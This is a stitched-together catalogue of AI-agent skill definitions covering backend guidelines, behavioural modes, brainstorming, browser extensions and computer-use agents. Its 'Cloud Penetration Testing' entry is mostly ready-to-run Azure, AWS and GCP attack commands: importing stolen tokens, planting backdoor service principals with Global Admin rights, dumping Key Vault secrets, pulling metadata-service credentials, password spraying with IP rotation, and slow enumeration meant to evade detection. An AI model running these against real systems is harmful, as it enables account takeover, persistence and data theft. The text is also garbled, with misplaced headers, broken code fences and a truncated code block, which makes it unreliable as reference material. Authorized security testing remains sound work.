Opinionated backend development standards for Node.js + Express + TypeScript microservices. Covers layered architecture, BaseController pattern, dependency injection, Prisma repositories, Zod validation, unifiedConfig, Sentry error tracking, async safety, and testing discipline.

### When to Use
Automatically applies when working on:

* Routes, controllers, services, repositories
* Express middleware
* Prisma database access
* Zod validation
* Sentry error tracking
* Configuration management
* Backend refactors or migrations

---

### Behavior & Constraints
name: backend-dev-guidelines
description: Opinionated backend development standards for Node.js + Express + TypeScript microservices. Covers layered architecture, BaseController pattern, dependency injection, Prisma repositories, Zod validation, unifiedConfig, Sentry error tracking, async safety, and testing discipline.
---

# Backend Development Guidelines

**(Node.js · Express · TypeScript · Microservices)**

You are a **senior backend engineer** operating production-grade services under strict architectural and reliability constraints.

Your goal is to build **predictable, observable, and maintainable backend systems** using:

* Layered architecture
* Explicit error boundaries
* Strong typing and validation
* Centralized configuration
* First-class observability

This skill defines **how backend code must be written**, not merely suggestions.

---

---

## bash-linux
- **ID**: `bash-linux`
- **Confidence**: `0.5`

### Description
Bash/Linux terminal patterns. Critical commands, piping, error handling, scripting. Use when working on macOS or Linux systems.

---

## behavioral-modes
- **ID**: `behavioral-modes`
- **Confidence**: `1.0`

### Description
AI operational modes (brainstorm, implement, debug, review, teach, ship, orchestrate). Use to adapt behavior based on task type.

### Purpose
This skill defines distinct behavioral modes that optimize AI performance for specific tasks. Modes change how the AI approaches problems, communicates, and prioritizes.

---

### When to Use
### 1. 🧠 BRAINSTORM Mode

**When to use:** Early project planning, feature ideation, architecture decisions

**Behavior:**
- Ask clarifying questions before assumptions
- Offer multiple alternatives (at least 3)
- Think divergently - explore unconventional solutions
- No code yet - focus on ideas and options
- Use visual diagrams (mermaid) to explain concepts

**Output style:**
```
"Let's explore this together. Here are some approaches:

Option A: [description]
  ✅ Pros: ...
  ❌ Cons: ...

Option B: [description]
  ✅ Pros: ...
  ❌ Cons: ...

What resonates with you? Or should we explore a different direction?"
```

---

### 2. ⚡ IMPLEMENT Mode

**When to use:** Writing code, building features, executing plans

**Behavior:**
- **CRITICAL: Use `clean-code` skill standards** - concise, direct, no verbose explanations
- Fast execution - minimize questions
- Use established patterns and best practices
- Write complete, production-ready code
- Include error handling and edge cases
- **NO tutorial-style explanations** - just code
- **NO unnecessary comments** - let code self-document
- **NO over-engineering** - solve the problem directly
- **NO RUSHING** - Quality > Speed. Read ALL references before coding.

**Output style:**
```
[Code block]

[Brief summary, max 1-2 sentences]
```

**NOT:**
```
"Building [feature]...

✓ Created [file1]
✓ Created [file2]
✓ Updated [file3]

[long explanation]

Run `npm run dev` to test."
```

---

### 3. 🔍 DEBUG Mode

**When to use:** Fixing bugs, troubleshooting errors, investigating issues

**Behavior:**
- Ask for error messages and reproduction steps
- Think systematically - check logs, trace data flow
- Form hypothesis → test → verify
- Explain the root cause, not just the fix
- Prevent future occurrences

**Output style:**
```
"Investigating...

🔍 Symptom: [what's happening]
🎯 Root cause: [why it's happening]
✅ Fix: [the solution]
🛡️ Prevention: [how to avoid in future]
```

---

### 4. 📋 REVIEW Mode

**When to use:** Code review, architecture review, security audit

**Behavior:**
- Be thorough but constructive
- Categorize by severity (Critical/High/Medium/Low)
- Explain the "why" behind suggestions
- Offer improved code examples
- Acknowledge what's done well

**Output style:**
```

### When to Use
### 🔴 Critical
- [issue with explanation]

### 🟠 Improvements
- [suggestion with example]

### 🟢 Good
- [positive observation]
```

---

### 5. 📚 TEACH Mode

**When to use:** Explaining concepts, documentation, onboarding

**Behavior:**
- Explain from fundamentals
- Use analogies and examples
- Progress from simple to complex
- Include practical exercises
- Check understanding

**Output style:**
```

### When to Use
### What is it?
[Simple explanation with analogy]

### How it works
[Technical explanation with diagram]

### Example
[Code example with comments]

### Try it yourself
[Exercise or task]
```

---

### 6. 🚀 SHIP Mode

**When to use:** Production deployment, final polish, release preparation

**Behavior:**
- Focus on stability over features
- Check for missing error handling
- Verify environment configs
- Run all tests
- Create deployment checklist

**Output style:**
```

---

## blockrun
- **ID**: `blockrun`
- **Confidence**: `1.0`

### Description
Use when user needs capabilities Claude lacks (image generation, real-time X/Twitter data) or explicitly requests external models ("blockrun", "use grok", "use gpt", "dall-e", "deepseek")

### When to Use
| Trigger | Your Action |
|---------|-------------|
| User explicitly requests ("blockrun second opinion with GPT on...", "use grok to check...", "generate image with dall-e") | Execute via BlockRun |
| User needs something you can't do (images, live X data) | Suggest BlockRun, wait for confirmation |
| You can handle the task fine | Do it yourself, don't mention BlockRun |

---

## brainstorming
- **ID**: `brainstorming`
- **Confidence**: `1.0`

### Description
>

### Purpose
Turn raw ideas into **clear, validated designs and specifications**
through structured dialogue **before any implementation begins**.

This skill exists to prevent:
- premature implementation
- hidden assumptions
- misaligned solutions
- fragile systems

You are **not allowed** to implement, code, or modify behavior while this skill is active.

---

### Behavior & Constraints
### 1️⃣ Understand the Current Context (Mandatory First Step)

Before asking any questions:

- Review the current project state (if available):
  - files
  - documentation
  - plans
  - prior decisions
- Identify what already exists vs. what is proposed
- Note constraints that appear implicit but unconfirmed

**Do not design yet.**

---

### 2️⃣ Understanding the Idea (One Question at a Time)

Your goal here is **shared clarity**, not speed.

**Rules:**

- Ask **one question per message**
- Prefer **multiple-choice questions** when possible
- Use open-ended questions only when necessary
- If a topic needs depth, split it into multiple questions

Focus on understanding:

- purpose  
- target users  
- constraints  
- success criteria  
- explicit non-goals  

---

### 3️⃣ Non-Functional Requirements (Mandatory)

You MUST explicitly clarify or propose assumptions for:

- Performance expectations  
- Scale (users, data, traffic)  
- Security or privacy constraints  
- Reliability / availability needs  
- Maintenance and ownership expectations  

If the user is unsure:

- Propose reasonable defaults  
- Clearly mark them as **assumptions**

---

### 4️⃣ Understanding Lock (Hard Gate)

Before proposing **any design**, you MUST pause and do the following:

#### Understanding Summary
Provide a concise summary (5–7 bullets) covering:
- What is being built  
- Why it exists  
- Who it is for  
- Key constraints  
- Explicit non-goals  

#### Assumptions
List all assumptions explicitly.

#### Open Questions
List unresolved questions, if any.

Then ask:

> “Does this accurately reflect your intent?  
> Please confirm or correct anything before we move to design.”

**Do NOT proceed until explicit confirmation is given.**

---

### 5️⃣ Explore Design Approaches

Once understanding is confirmed:

- Propose **2–3 viable approaches**
- Lead with your **recommended option**
- Explain trade-offs clearly:
  - complexity
  - extensibility
  - risk
  - maintenance
- Avoid premature optimization (**YAGNI ruthlessly**)

This is still **not** final design.

---

### 6️⃣ Present the Design (Incrementally)

When presenting the design:

- Break it into sections of **200–300 words max**
- After each section, ask:

  > “Does this look right so far?”

Cover, as relevant:

- Architecture  
- Components  
- Data flow  
- Error handling  
- Edge cases  
- Testing strategy  

---

### 7️⃣ Decision Log (Mandatory)

Maintain a running **Decision Log** throughout the design discussion.

For each decision:
- What was decided  
- Alternatives considered  
- Why this option was chosen  

This log should be preserved for documentation.

---

---

## brand-guidelines
- **ID**: `brand-guidelines-anthropic`
- **Confidence**: `0.5`

### Description
Applies Anthropic's official brand colors and typography to any sort of artifact that may benefit from having Anthropic's look-and-feel. Use it when brand colors or style guidelines, visual formatting, or company design standards apply.

---

## brand-guidelines
- **ID**: `brand-guidelines-community`
- **Confidence**: `0.5`

### Description
Applies Anthropic's official brand colors and typography to any sort of artifact that may benefit from having Anthropic's look-and-feel. Use it when brand colors or style guidelines, visual formatting, or company design standards apply.

---

## Broken Authentication Testing
- **ID**: `broken-authentication`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "test for broken authentication vulnerabilities", "assess session management security", "perform credential stuffing tests", "evaluate password policies", "test for session fixation", or "identify authentication bypass flaws". It provides comprehensive techniques for identifying authentication and session management weaknesses in web applications.

### Purpose
Identify and exploit authentication and session management vulnerabilities in web applications. Broken authentication consistently ranks in the OWASP Top 10 and can lead to account takeover, identity theft, and unauthorized access to sensitive systems. This skill covers testing methodologies for password policies, session handling, multi-factor authentication, and credential management.

### Behavior & Constraints
### Legal Requirements
- Only test with explicit written authorization
- Avoid testing with real breached credentials
- Do not access actual user accounts
- Document all testing activities

### Technical Limitations
- CAPTCHA may prevent automated testing
- Rate limiting affects brute force timing
- MFA significantly increases attack difficulty
- Some vulnerabilities require victim interaction

### Scope Considerations
- Test accounts may behave differently than production
- Some features may be disabled in test environments
- Third-party authentication may be out of scope
- Production testing requires extra caution

---

## browser-automation
- **ID**: `browser-automation`
- **Confidence**: `0.5`

### Description
"Browser automation powers web testing, scraping, and AI agent interactions. The difference between a flaky script and a reliable system comes down to understanding selectors, waiting strategies, and anti-detection patterns.  This skill covers Playwright (recommended) and Puppeteer, with patterns for testing, scraping, and agentic browser control. Key insight: Playwright won the framework war. Unless you need Puppeteer's stealth ecosystem or are Chrome-only, Playwright is the better choice in 202"

---

## browser-extension-builder
- **ID**: `browser-extension-builder`
- **Confidence**: `1.0`

### Description
"Expert in building browser extensions that solve real problems - Chrome, Firefox, and cross-browser extensions. Covers extension architecture, manifest v3, content scripts, popup UIs, monetization strategies, and Chrome Web Store publishing. Use when: browser extension, chrome extension, firefox addon, extension, manifest v3."

### When to Use
### Extension Architecture

Structure for modern browser extensions

**When to use**: When starting a new extension

```javascript

### When to Use
### Project Structure
```
extension/
├── manifest.json      # Extension config
├── popup/
│   ├── popup.html     # Popup UI
│   ├── popup.css
│   └── popup.js
├── content/
│   └── content.js     # Runs on web pages
├── background/
│   └── service-worker.js  # Background logic
├── options/
│   ├── options.html   # Settings page
│   └── options.js
└── icons/
    ├── icon16.png
    ├── icon48.png
    └── icon128.png
```

### Manifest V3 Template
```json
{
  "manifest_version": 3,
  "name": "My Extension",
  "version": "1.0.0",
  "description": "What it does",
  "permissions": ["storage", "activeTab"],
  "action": {
    "default_popup": "popup/popup.html",
    "default_icon": {
      "16": "icons/icon16.png",
      "48": "icons/icon48.png",
      "128": "icons/icon128.png"
    }
  },
  "content_scripts": [{
    "matches": ["<all_urls>"],
    "js": ["content/content.js"]
  }],
  "background": {
    "service_worker": "background/service-worker.js"
  },
  "options_page": "options/options.html"
}
```

### Communication Pattern
```
Popup ←→ Background (Service Worker) ←→ Content Script
              ↓
        chrome.storage
```
```

### Content Scripts

Code that runs on web pages

**When to use**: When modifying or reading page content

```javascript

### When to Use
### Basic Content Script
```javascript
// content.js - Runs on every matched page

// Wait for page to load
document.addEventListener('DOMContentLoaded', () => {
  // Modify the page
  const element = document.querySelector('.target');
  if (element) {
    element.style.backgroundColor = 'yellow';
  }
});

// Listen for messages from popup/background
chrome.runtime.onMessage.addListener((message, sender, sendResponse) => {
  if (message.action === 'getData') {
    const data = document.querySelector('.data')?.textContent;
    sendResponse({ data });
  }
  return true; // Keep channel open for async
});
```

### Injecting UI
```javascript
// Create floating UI on page
function injectUI() {
  const container = document.createElement('div');
  container.id = 'my-extension-ui';
  container.innerHTML = `
    <div style="position: fixed; bottom: 20px; right: 20px;
                background: white; padding: 16px; border-radius: 8px;
                box-shadow: 0 4px 12px rgba(0,0,0,0.15); z-index: 10000;">
      <h3>My Extension</h3>
      <button id="my-extension-btn">Click me</button>
    </div>
  `;
  document.body.appendChild(container);

  document.getElementById('my-extension-btn').addEventListener('click', () => {
    // Handle click
  });
}

injectUI();
```

### Permissions for Content Scripts
```json
{
  "content_scripts": [{
    "matches": ["https://specific-site.com/*"],
    "js": ["content.js"],
    "run_at": "document_end"
  }]
}
```
```

### Storage and State

Persisting extension data

**When to use**: When saving user settings or data

```javascript

### Behavior & Constraints
name: browser-extension-builder
description: "Expert in building browser extensions that solve real problems - Chrome, Firefox, and cross-browser extensions. Covers extension architecture, manifest v3, content scripts, popup UIs, monetization strategies, and Chrome Web Store publishing. Use when: browser extension, chrome extension, firefox addon, extension, manifest v3."
source: vibeship-spawner-skills (Apache 2.0)
---

# Browser Extension Builder

**Role**: Browser Extension Architect

You extend the browser to give users superpowers. You understand the
unique constraints of extension development - permissions, security,
store policies. You build extensions that people install and actually
use daily. You know the difference between a toy and a tool.

---

## bullmq-specialist
- **ID**: `bullmq-specialist`
- **Confidence**: `0.5`

### Description
"BullMQ expert for Redis-backed job queues, background processing, and reliable async execution in Node.js/TypeScript applications. Use when: bullmq, bull queue, redis queue, background job, job queue."

---

## bun-development
- **ID**: `bun-development`
- **Confidence**: `1.0`

### Description
"Modern JavaScript/TypeScript development with Bun runtime. Covers package management, bundling, testing, and migration from Node.js. Use when working with Bun, optimizing JS/TS development speed, or migrating from Node.js to Bun."

### When to Use
Use this skill when:

- Starting new JS/TS projects with Bun
- Migrating from Node.js to Bun
- Optimizing development speed
- Using Bun's built-in tools (bundler, test runner)
- Troubleshooting Bun-specific issues

---

---

## Burp Suite Web Application Testing
- **ID**: `burp-suite-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "intercept HTTP traffic", "modify web requests", "use Burp Suite for testing", "perform web vulnerability scanning", "test with Burp Repeater", "analyze HTTP history", or "configure proxy for web testing". It provides comprehensive guidance for using Burp Suite's core features for web application security testing.

### Purpose
Execute comprehensive web application security testing using Burp Suite's integrated toolset, including HTTP traffic interception and modification, request analysis and replay, automated vulnerability scanning, and manual testing workflows. This skill enables systematic discovery and exploitation of web application vulnerabilities through proxy-based testing methodology.

### Behavior & Constraints
### Operational Boundaries
- Test only authorized applications
- Configure scope to prevent accidental out-of-scope testing
- Rate-limit scans to avoid denial of service
- Document all findings and actions

### Technical Limitations
- Community Edition lacks automated scanner
- Some sites may block proxy traffic
- HSTS/certificate pinning may require additional configuration
- Heavy scanning may trigger WAF blocks

### Best Practices
- Always set target scope before extensive testing
- Use Burp's browser for reliable interception
- Save project regularly to preserve work
- Review scan results manually for false positives

---

## busybox-on-windows
- **ID**: `busybox-on-windows`
- **Confidence**: `0.5`

### Description
How to use a Win32 build of BusyBox to run many of the standard UNIX command line tools on Windows.

---

## canvas-design
- **ID**: `canvas-design`
- **Confidence**: `0.5`

### Description
Create beautiful visual art in .png and .pdf documents using design philosophy. You should use this skill when the user asks to create a poster, piece of art, design, or other static piece. Create original visual designs, never copying existing artists' work to avoid copyright violations.

---

## backend-patterns
- **ID**: `cc-skill-backend-patterns`
- **Confidence**: `0.5`

### Description
Backend architecture patterns, API design, database optimization, and server-side best practices for Node.js, Express, and Next.js API routes.

---

## clickhouse-io
- **ID**: `cc-skill-clickhouse-io`
- **Confidence**: `0.5`

### Description
ClickHouse database patterns, query optimization, analytics, and data engineering best practices for high-performance analytical workloads.

---

## coding-standards
- **ID**: `cc-skill-coding-standards`
- **Confidence**: `0.5`

### Description
Universal coding standards, best practices, and patterns for TypeScript, JavaScript, React, and Node.js development.

---

## cc-skill-continuous-learning
- **ID**: `cc-skill-continuous-learning`
- **Confidence**: `0.5`

### Description
Development skill from everything-claude-code

---

## frontend-patterns
- **ID**: `cc-skill-frontend-patterns`
- **Confidence**: `0.5`

### Description
Frontend development patterns for React, Next.js, state management, performance optimization, and UI best practices.

---

## cc-skill-project-guidelines-example
- **ID**: `cc-skill-project-guidelines-example`
- **Confidence**: `1.0`

### Description
Project Guidelines Skill (Example)

### When to Use
Reference this skill when working on the specific project it's designed for. Project skills contain:
- Architecture overview
- File structure
- Code patterns
- Testing requirements
- Deployment workflow

---

---

## security-review
- **ID**: `cc-skill-security-review`
- **Confidence**: `1.0`

### Description
Use this skill when adding authentication, handling user input, working with secrets, creating API endpoints, or implementing payment/sensitive features. Provides comprehensive security checklist and patterns.

### Activation
- Implementing authentication or authorization
- Handling user input or file uploads
- Creating new API endpoints
- Working with secrets or credentials
- Implementing payment features
- Storing or transmitting sensitive data
- Integrating third-party APIs

---

## cc-skill-strategic-compact
- **ID**: `cc-skill-strategic-compact`
- **Confidence**: `0.5`

### Description
Development skill from everything-claude-code

---

## Claude Code Guide
- **ID**: `claude-code-guide`
- **Confidence**: `1.0`

### Description
Master guide for using Claude Code effectively. Includes configuration templates, prompting strategies "Thinking" keywords, debugging techniques, and best practices for interacting with the agent.

### Purpose
To provide a comprehensive reference for configuring and using Claude Code (the agentic coding tool) to its full potential. This skill synthesizes best practices, configuration templates, and advanced usage patterns.

---

## d3-viz
- **ID**: `claude-d3js-skill`
- **Confidence**: `1.0`

### Description
Creating interactive data visualisations using d3.js. This skill should be used when creating custom charts, graphs, network diagrams, geographic visualisations, or any complex SVG-based data visualisation that requires fine-grained control over visual elements, transitions, or interactions. Use this for bespoke visualisations beyond standard charting libraries, whether in React, Vue, Svelte, vanilla JavaScript, or any other environment.

### When to Use
**Use d3.js for:**
- Custom visualisations requiring unique visual encodings or layouts
- Interactive explorations with complex pan, zoom, or brush behaviours
- Network/graph visualisations (force-directed layouts, tree diagrams, hierarchies, chord diagrams)
- Geographic visualisations with custom projections
- Visualisations requiring smooth, choreographed transitions
- Publication-quality graphics with fine-grained styling control
- Novel chart types not available in standard libraries

**Consider alternatives for:**
- 3D visualisations - use Three.js instead

---

## clean-code
- **ID**: `clean-code`
- **Confidence**: `0.5`

### Description
Pragmatic coding standards - concise, direct, no over-engineering, no unnecessary comments

---

## clerk-auth
- **ID**: `clerk-auth`
- **Confidence**: `0.5`

### Description
"Expert patterns for Clerk auth implementation, middleware, organizations, webhooks, and user sync Use when: adding authentication, clerk auth, user authentication, sign in, sign up."

---

## Cloud Penetration Testing
- **ID**: `cloud-penetration-testing`
- **Confidence**: `1.0`

### Description
This skill should be used when the user asks to "perform cloud penetration testing", "assess Azure or AWS or GCP security", "enumerate cloud resources", "exploit cloud misconfigurations", "test O365 security", "extract secrets from cloud environments", or "audit cloud infrastructure". It provides comprehensive techniques for security assessment across major cloud platforms.

### Purpose
Conduct comprehensive security assessments of cloud infrastructure across Microsoft Azure, Amazon Web Services (AWS), and Google Cloud Platform (GCP). This skill covers reconnaissance, authentication testing, resource enumeration, privilege escalation, data extraction, and persistence techniques for authorized cloud security engagements.

### Activation
### Phase 1: Reconnaissance

Gather initial information about target cloud presence:

```bash
# Azure: Get federation info
curl "https://login.microsoftonline.com/getuserrealm.srf?login=user@target.com&xml=1"

# Azure: Get Tenant ID
curl "https://login.microsoftonline.com/target.com/v2.0/.well-known/openid-configuration"

# Enumerate cloud resources by company name
python3 cloud_enum.py -k targetcompany

# Check IP against cloud providers
cat ips.txt | python3 ip2provider.py
```

### Phase 2: Azure Authentication

Authenticate to Azure environments:

```powershell
# Az PowerShell Module
Import-Module Az
Connect-AzAccount

# With credentials (may bypass MFA)
$credential = Get-Credential
Connect-AzAccount -Credential $credential

# Import stolen context
Import-AzContext -Profile 'C:\Temp\StolenToken.json'

# Export context for persistence
Save-AzContext -Path C:\Temp\AzureAccessToken.json

# MSOnline Module
Import-Module MSOnline
Connect-MsolService
```

### Phase 3: Azure Enumeration

Discover Azure resources and permissions:

```powershell
# List contexts and subscriptions
Get-AzContext -ListAvailable
Get-AzSubscription

# Current user role assignments
Get-AzRoleAssignment

# List resources
Get-AzResource
Get-AzResourceGroup

# Storage accounts
Get-AzStorageAccount

# Web applications
Get-AzWebApp

# SQL Servers and databases
Get-AzSQLServer
Get-AzSqlDatabase -ServerName $Server -ResourceGroupName $RG

# Virtual machines
Get-AzVM
$vm = Get-AzVM -Name "VMName"
$vm.OSProfile

# List all users
Get-MSolUser -All

# List all groups
Get-MSolGroup -All

# Global Admins
Get-MsolRole -RoleName "Company Administrator"
Get-MSolGroupMember -GroupObjectId $GUID

# Service Principals
Get-MsolServicePrincipal
```

### Phase 4: Azure Exploitation

Exploit Azure misconfigurations:

```powershell
# Search user attributes for passwords
$users = Get-MsolUser -All
foreach($user in $users){
    $props = @()
    $user | Get-Member | foreach-object{$props+=$_.Name}
    foreach($prop in $props){
        if($user.$prop -like "*password*"){
            Write-Output ("[*]" + $user.UserPrincipalName + "[" + $prop + "]" + " : " + $user.$prop)
        }
    }
}

# Execute commands on VMs
Invoke-AzVMRunCommand -ResourceGroupName $RG -VMName $VM -CommandId RunPowerShellScript -ScriptPath ./script.ps1

# Extract VM UserData
$vms = Get-AzVM
$vms.UserData

# Dump Key Vault secrets
az keyvault list --query '[].name' --output tsv
az keyvault set-policy --name <vault> --upn <user> --secret-permissions get list
az keyvault secret list --vault-name <vault> --query '[].id' --output tsv
az keyvault secret show --id <URI>
```

### Phase 5: Azure Persistence

Establish persistence in Azure:

```powershell
# Create backdoor service principal
$spn = New-AzAdServicePrincipal -DisplayName "WebService" -Role Owner
$BSTR = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($spn.Secret)
$UnsecureSecret = [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($BSTR)

# Add service principal to Global Admin
$sp = Get-MsolServicePrincipal -AppPrincipalId <AppID>
$role = Get-MsolRole -RoleName "Company Administrator"
Add-MsolRoleMember -RoleObjectId $role.ObjectId -RoleMemberType ServicePrincipal -RoleMemberObjectId $sp.ObjectId

# Login as service principal
$cred = Get-Credential  # AppID as username, secret as password
Connect-AzAccount -Credential $cred -Tenant "tenant-id" -ServicePrincipal

# Create new admin user via CLI
az ad user create --display-name <name> --password <pass> --user-principal-name <upn>
```

### Phase 6: AWS Authentication

Authenticate to AWS environments:

```bash
# Configure AWS CLI
aws configure
# Enter: Access Key ID, Secret Access Key, Region, Output format

# Use specific profile
aws configure --profile target

# Test credentials
aws sts get-caller-identity
```

### Phase 7: AWS Enumeration

Discover AWS resources:

```bash
# Account information
aws sts get-caller-identity
aws iam list-users
aws iam list-roles

# S3 Buckets
aws s3 ls
aws s3 ls s3://bucket-name/
aws s3 sync s3://bucket-name ./local-dir

# EC2 Instances
aws ec2 describe-instances

# RDS Databases
aws rds describe-db-instances --region us-east-1

# Lambda Functions
aws lambda list-functions --region us-east-1
aws lambda get-function --function-name <name>

# EKS Clusters
aws eks list-clusters --region us-east-1

# Networking
aws ec2 describe-subnets
aws ec2 describe-security-groups --group-ids <sg-id>
aws directconnect describe-connections
```

### Phase 8: AWS Exploitation

Exploit AWS misconfigurations:

```bash
# Check for public RDS snapshots
aws rds describe-db-snapshots --snapshot-type manual --query=DBSnapshots[*].DBSnapshotIdentifier
aws rds describe-db-snapshot-attributes --db-snapshot-identifier <id>
# AttributeValues = "all" means publicly accessible

# Extract Lambda environment variables (may contain secrets)
aws lambda get-function --function-name <name> | jq '.Configuration.Environment'

# Access metadata service (from compromised EC2)
curl http://169.254.169.254/latest/meta-data/
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/

# IMDSv2 access
TOKEN=$(curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600")
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

### Phase 9: AWS Persistence

Establish persistence in AWS:

```bash
# List existing access keys
aws iam list-access-keys --user-name <username>

# Create backdoor access key
aws iam create-access-key --user-name <username>

# Get all EC2 public IPs
for region in $(cat regions.txt); do
    aws ec2 describe-instances --query=Reservations[].Instances[].PublicIpAddress --region $region | jq -r '.[]'
done
```

### Phase 10: GCP Enumeration

Discover GCP resources:

```bash
# Authentication
gcloud auth login
gcloud auth activate-service-account --key-file creds.json
gcloud auth list

# Account information
gcloud config list
gcloud organizations list
gcloud projects list

# IAM Policies
gcloud organizations get-iam-policy <org-id>
gcloud projects get-iam-policy <project-id>

# Enabled services
gcloud services list

# Source code repos
gcloud source repos list
gcloud source repos clone <repo>

# Compute instances
gcloud compute instances list
gcloud beta compute ssh --zone "region" "instance" --project "project"

# Storage buckets
gsutil ls
gsutil ls -r gs://bucket-name
gsutil cp gs://bucket/file ./local

# SQL instances
gcloud sql instances list
gcloud sql databases list --instance <id>

# Kubernetes
gcloud container clusters list
gcloud container clusters get-credentials <cluster> --region <region>
kubectl cluster-info
```

### Phase 11: GCP Exploitation

Exploit GCP misconfigurations:

```bash
# Get metadata service data
curl "http://metadata.google.internal/computeMetadata/v1/?recursive=true&alt=text" -H "Metadata-Flavor: Google"

# Check access scopes
curl http://metadata.google.internal/computeMetadata/v1/instance/service-accounts/default/scopes -H 'Metadata-Flavor:Google'

# Decrypt data with keyring
gcloud kms decrypt --ciphertext-file=encrypted.enc --plaintext-file=out.txt --key <key> --keyring <keyring> --location global

# Serverless function analysis
gcloud functions list
gcloud functions describe <name>
gcloud functions logs read <name> --limit 100

# Find stored credentials
sudo find /home -name "credentials.db"
sudo cp -r /home/user/.config/gcloud ~/.config
gcloud auth list
```

### Activation
### Example 1: Azure Password Spray

**Scenario:** Test Azure AD password policy

```powershell
# Using MSOLSpray with FireProx for IP rotation
# First create FireProx endpoint
python fire.py --access_key <key> --secret_access_key <secret> --region us-east-1 --url https://login.microsoft.com --command create

# Spray passwords
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList .\users.txt -Password "Spring2024!" -URL https://<api-gateway>.execute-api.us-east-1.amazonaws.com/fireprox
```

### Example 2: AWS S3 Bucket Enumeration

**Scenario:** Find and access misconfigured S3 buckets

```bash
# List all buckets
aws s3 ls | awk '{print $3}' > buckets.txt

# Check each bucket for contents
while read bucket; do
    echo "Checking: $bucket"
    aws s3 ls s3://$bucket 2>/dev/null
done < buckets.txt

# Download interesting bucket
aws s3 sync s3://misconfigured-bucket ./loot/
```

### Example 3: GCP Service Account Compromise

**Scenario:** Pivot using compromised service account

```bash
# Authenticate with service account key
gcloud auth activate-service-account --key-file compromised-sa.json

# List accessible projects
gcloud projects list

# Enumerate compute instances
gcloud compute instances list --project target-project

# Check for SSH keys in metadata
gcloud compute project-info describe --project target-project | grep ssh

# SSH to instance
gcloud beta compute ssh instance-name --zone us-central1-a --project target-project
```

### Behavior & Constraints
### Legal Requirements
- Only test with explicit written authorization
- Respect scope boundaries between cloud accounts
- Do not access production customer data
- Document all testing activities

### Technical Limitations
- MFA may prevent credential-based attacks
- Conditional Access policies may restrict access
- CloudTrail/Activity Logs record all API calls
- Some resources require specific regional access

### Detection Considerations
- Cloud providers log all API activity
- Unusual access patterns trigger alerts
- Use slow, deliberate enumeration
- Consider GuardDuty, Security Center, Cloud Armor

---

## code-review-checklist
- **ID**: `code-review-checklist`
- **Confidence**: `1.0`

### Description
"Comprehensive checklist for conducting thorough code reviews covering functionality, security, performance, and maintainability"

### When to Use
- Use when reviewing pull requests
- Use when conducting code audits
- Use when establishing code review standards for a team
- Use when training new developers on code review practices
- Use when you want to ensure nothing is missed in reviews
- Use when creating code review documentation

---

## GSD Codebase Mapper
- **ID**: `codebase-mapper`
- **Confidence**: `0.5`

### Description
Analyzes existing codebases to understand structure, patterns, and technical debt

---

## codex-review
- **ID**: `codex-review`
- **Confidence**: `1.0`

### Description
Professional code review with auto CHANGELOG generation, integrated with Codex AI

### When to Use
- When you want professional code review before commits
- When you need automatic CHANGELOG generation
- When reviewing large-scale refactoring

---

## competitor-alternatives
- **ID**: `competitor-alternatives`
- **Confidence**: `0.5`

### Description
"When the user wants to create competitor comparison or alternative pages for SEO and sales enablement. Also use when the user mentions 'alternative page,' 'vs page,' 'competitor comparison,' 'comparison page,' '[Product] vs [Product],' '[Product] alternative,' or 'competitive landing pages.' Covers four formats: singular alternative, plural alternatives, you vs competitor, and competitor vs competitor. Emphasizes deep research, modular content architecture, and varied section types beyond feature tables."

---

## computer-use-agents
- **ID**: `computer-use-agents`
- **Confidence**: `1.0`

### Description
"Build AI agents that interact with computers like humans do - viewing screens, moving cursors, clicking buttons, and typing text. Covers Anthropic's Computer Use, OpenAI's Operator/CUA, and open-source alternatives. Critical focus on sandboxing, security, and handling the unique challenges of vision-based control. Use when: computer use, desktop automation agent, screen control AI, vision-based agent, GUI automation."

### When to Use
### Perception-Reasoning-Action Loop

The fundamental architecture of computer use agents: observe screen,
reason about next action, execute action, repeat. This loop integrates
vision models with action execution through an iterative pipeline.

Key components:
1. PERCEPTION: Screenshot captures current screen state
2. REASONING: Vision-language model analyzes and plans
3. ACTION: Execute mouse/keyboard operations
4. FEEDBACK: Observe result, continue or correct

Critical insight: Vision agents are completely still during "thinking"
phase (1-5 seconds), creating a detectable pause pattern.


**When to use**: ['Building any computer use agent from scratch', 'Integrating vision models with desktop control', 'Understanding agent behavior patterns']

```python
from anthropic import Anthropic
from PIL import Image
import base64
import pyautogui
import time

class ComputerUseAgent:
    """
    Perception-Reasoning-Action loop implementation.
    Based on Anthropic Computer Use patterns.
    """

    def __init__(self, client: Anthropic, model: str = "claude-sonnet-4-20250514"):
        self.client = client
        self.model = model
        self.max_steps = 50  # Prevent runaway loops
        self.action_delay = 0.5  # Seconds between actions

    def capture_screenshot(self) -> str:
        """Capture screen and return base64 encoded image."""
        screenshot = pyautogui.screenshot()
        # Resize for token efficiency (1280x800 is good balance)
        screenshot = screenshot.resize((1280, 800), Image.LANCZOS)

        import io
        buffer = io.BytesIO()
        screenshot.save(buffer, format="PNG")
        return base64.b64encode(buffer.getvalue()).decode()

    def execute_action(self, action: dict) -> dict:
        """Execute mouse/keyboard action on the computer."""
        action_type = action.get("type")

        if action_type == "click":
            x, y = action["x"], action["y"]
            button = action.get("button", "left")
            pyautogui.click(x, y, button=button)
            return {"success": True, "action": f"clicked at ({x}, {y})"}

        elif action_type == "type":
            text = action["text"]
            pyautogui.typewrite(text, interval=0.02)
            return {"success": True, "action": f"typed {len(text)} chars"}

        elif action_type == "key":
            key = action["key"]
            pyautogui.press(key)
            return {"success": True, "action": f"pressed {key}"}

        elif action_type == "scroll":
            direction = action.get("direction", "down")
            amount = action.get("amount", 3)
            scroll = -amount if direction == "down" else amount
            pyautogui.scroll(scroll)
            return {"success": True, "action": f"scrolled {dir
```

### Sandboxed Environment Pattern

Computer use agents MUST run in isolated, sandboxed environments.
Never give agents direct access to your main system - the security
risks are too high. Use Docker containers with virtual desktops.

Key isolation requirements:
1. NETWORK: Restrict to necessary endpoints only
2. FILESYSTEM: Read-only or scoped to temp directories
3. CREDENTIALS: No access to host credentials
4. SYSCALLS: Filter dangerous system calls
5. RESOURCES: Limit CPU, memory, time

